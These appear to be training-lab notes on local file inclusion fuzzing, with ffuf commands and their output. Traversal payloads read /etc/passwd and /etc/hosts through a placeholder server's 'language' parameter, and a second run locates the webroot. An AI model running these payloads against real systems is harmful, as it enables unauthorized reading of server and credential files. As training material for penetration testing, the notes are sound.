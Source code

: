 ## LFI wordlists

```bash
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://SERVER_IP_ADDRESS:PORT/index.php?language=FUZZ' -fs 2287
```

```text title="Output"
...SNIP...

 :: Method           : GET
 :: URL              : http://SERVER_IP_ADDRESS:PORT/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]

...SNIP...

../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

## Fuzzing Server Files

### Server Webroot

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://SERVER_IP_ADDRESS:PORT/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

```text title="Output"
...SNIP...

: Method           : GET
 :: URL              : http://SERVER_IP_ADDRESS:PORT/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

